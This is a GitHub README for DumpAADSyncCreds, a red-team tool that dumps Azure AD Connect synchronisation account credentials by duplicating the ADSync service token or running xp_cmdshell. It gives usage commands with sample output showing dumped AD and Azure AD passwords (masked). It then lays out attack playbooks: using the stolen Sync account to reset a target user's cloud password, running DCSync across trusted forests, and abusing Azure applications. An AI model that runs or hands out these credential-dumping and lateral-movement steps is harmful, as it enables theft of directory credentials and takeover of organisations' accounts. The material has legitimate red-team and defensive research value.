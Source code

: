 # DumpAADSyncCreds
DumpAADSyncCreds is C# implementation of Get-AADIntSyncCredentials from [AADInternals](https://github.com/Gerenios/AADInternals), which extracts Azure AD Connect credentials to AD and Azure AD from AAD connect database.

In late 2019, a change on key storage was deployed such that only ADSync service account could access the key to decrypt configuration file from database.

DumpAADSyncCreds provides two ways to impersonate as ADSync service account:

- execute command via xp_cmdshell by [Adam Chester](https://blog.xpnsec.com/azuread-connect-for-redteam/)
- copy token from miiserver process via DuplicateToken API call by AADInternals

## Usage

```shell
cmd> set PATH=%PATH%;C:\Program Files\Microsoft Azure AD Sync\Bin;
cmd> .\DumpAADSyncCreds.exe print_help
DumpAADSyncCreds
More info: https://github.com/Hagrid29/DumpAADSyncCreds
Example:
        set PATH=%PATH%;C:\Program Files\Microsoft Azure AD Sync\Bin;
        DumpAADSyncCreds.exe get_token
Options:
Dump AAD connect account credential in current context:
        DumpAADSyncCreds.exe [raw_output]
Copy token of ADSync service account and dump AAD connect account credential:
        DumpAADSyncCreds.exe get_token [raw_output]
Execute command as ADSync service account via xp_cmdshell:
        DumpAADSyncCreds.exe xp_cmd "\"C:\Program Files\Microsoft Azure AD Sync\Bin\DumpAADSyncCreds.exe\""
Print status of ADSync service:
        DumpAADSyncCreds.exe check_service
```

Duplicate token of ADSync service account

```shell
cmd> .\DumpAADSyncCreds.exe get_token
[+] Opening database: Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync
[+] Obtained ADSync service account token from miiserver process...
==========   AD configuration   ==========
AD Domain 1: XXXXXXX
AD User 1: MSOL_XXXXXXX
AD Password 1: XXXXXXX

==========   AAD configuration   ==========
AAD User 1: Sync_XXXXXXX_XXXXXXX@XXXXXXX.onmicrosoft.com
AAD Password 1: XXXXXXX
```

Execute xp_cmdshell

```shell
cmd> DumpAADSyncCreds.exe xp_cmd "\"C:\Program Files\Microsoft Azure AD Sync\Bin\DumpAADSyncCreds.exe\""
[+] Opening database: Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync
[+] Executed command: EXEC xp_cmdshell '"C:\Program Files\Microsoft Azure AD Sync\Bin\DumpAADSyncCreds.exe"'
[+] Opening database: Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync
==========   AD configuration   ==========
AD Domain 1: XXXXXXX
AD User 1: MSOL_XXXXXXX
AD Password 1: XXXXXXX

==========   AAD configuration   ==========
AAD User 1: Sync_XXXXXXX_XXXXXXX@XXXXXXX.onmicrosoft.com
AAD Password 1: XXXXXXX
```

Print ADSync service status

```shell
cmd> .\DumpAADSyncCreds.exe check_service
Is ADSync service running:      True
ADSync bin path:                C:\Program Files\Microsoft Azure AD Sync\bin\
ADSync service account:         XXXXXXX
ADSync version:                 1.6.16.0
*** ADSync passwords can be read or modified as local administrator only for ADSync version 1.3.xx.xx
```

## Compilation
Add References > Browse > [mcrypt.dll](DumpAADSyncCreds/Lib/mcrypt.dll)

## Use Cases of AAD Connect credentials
#### Lateral move from on-perm to cloud (Reset password of cloud user)
1. Import AADInternal
2. Request an access token for AADGraph
```powershell
ps> $passwd = ConvertTo-SecureString '<password>' -AsPlainText -Force
ps> $creds = New-Object System.Management.Automation.PSCredential ("<Sync_* account>", $passwd) 
ps> Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache 
```
3. Obtain Immutable ID of target user
```powershell
ps> Get-AADIntGlobalAdmins 
ps> Get-AADIntUser -UserPrincipalName <target user> | select ImmutableId 
```
4. Reset password of target user
```powershell
ps> Set-AADIntUserPassword -SourceAnchor "<Immutable ID>" -Password "P@ss4Hagrid29" -Verbose 
```

#### Lateral move across AD Forest
During different red team engagements, I noted that it is common to have [multiple forests with single Azure AD tenant](https://docs.microsoft.com/en-us/azure/active-directory/hybrid/plan-connect-topologies#multiple-forests-single-azure-ad-tenant) topology for Azure AD Connect. WIth this setup, we could leverage AD DS connector account to compromise trusted forests from another.
1. Locate and compromise AAD connector servers and corresponding connector accounts that synchronizes users from other forests
2. Execute DCSync attack with the connector account against the target forest

#### Compromise Azure Application
If we managed to find a abusable Azure application, we could add credential to the app and potentially escalate our privilege. Refer to [AbuseAzureAPIPermissions](https://github.com/Hagrid29/AbuseAzureAPIPermissions) for more details.

## Improvement

- Dirk-jan found a way to remote dump AAD connect account credentials with RPC call. Check details in his [blog post](https://dirkjanm.io/updating-adconnectdump-a-journey-into-dpapi/)

## References

* https://github.com/Gerenios/AADInternals
* https://blog.xpnsec.com/azuread-connect-for-redteam/

